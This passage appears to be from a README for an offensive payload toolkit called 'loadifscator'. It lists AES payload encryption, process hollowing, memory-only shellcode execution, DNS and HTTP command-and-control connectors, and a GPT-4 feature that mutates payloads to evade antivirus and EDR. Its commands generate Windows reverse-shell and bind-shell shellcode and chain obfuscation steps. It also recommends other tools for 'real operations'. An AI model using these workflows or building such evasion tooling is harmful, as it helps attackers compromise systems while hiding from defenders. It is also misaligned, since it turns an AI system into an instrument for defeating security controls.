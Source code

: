 ### Encryptors
- **AES-256-CBC:** Strong symmetric encryption for payloads

### Encoders
- **One-liner:** Converts payloads to single-line scripts for Python, Bash, PowerShell

### Evasion
- **Memory-Only Execution:** Loads and runs shellcode in memory (no disk write)
- **Process Hollowing:** Injects payload into a legitimate process
- **Living-Off-The-Land:** Uses native tools (PowerShell, WMI, etc.) for stealth

### C2 Connectors
- **MirageC2:** Generates payloads for MirageC2
- **DNS Tunnel:** C2 over DNS
- **HTTP Blend:** C2 over HTTP(S)

### AI Optimizer
- **GPT-4 Integration:** Mutates payloads for AV/EDR evasion

---

## Shellcode Generation

A helper script is included for generating test shellcode:

```bash
python generate_shellcode.py reverse 127.0.0.1 4444
python generate_shellcode.py bind 4444
python generate_shellcode.py calc
```
- Output: `.bin` files for use with the memory-only loader

**Shellcode Types:**
- Reverse shell (Windows x64)
- Bind shell (Windows x64)
- calc.exe launcher (Windows x64)

**Note:** For real operations, use msfvenom, Donut, or other tools to generate production shellcode.

---

## Example Workflows

### 1. Fileless Memory-Only Execution
```bash
python generate_shellcode.py calc
python -m loadifscator.cli memory-only --shellcode calc_launcher.bin -o calc_loader.py
```

### 2. Polymorphic + Metamorphic + AI Optimization
```bash
python -m loadifscator.cli obfuscate polymorphic --file reverse.py -o poly.py
python -m loadifscator.cli metamorphic --file poly.py --iterations 2 -o meta.py
python -m loadifscator.cli ai-optimize --file meta.py --target generic -o final.py
```

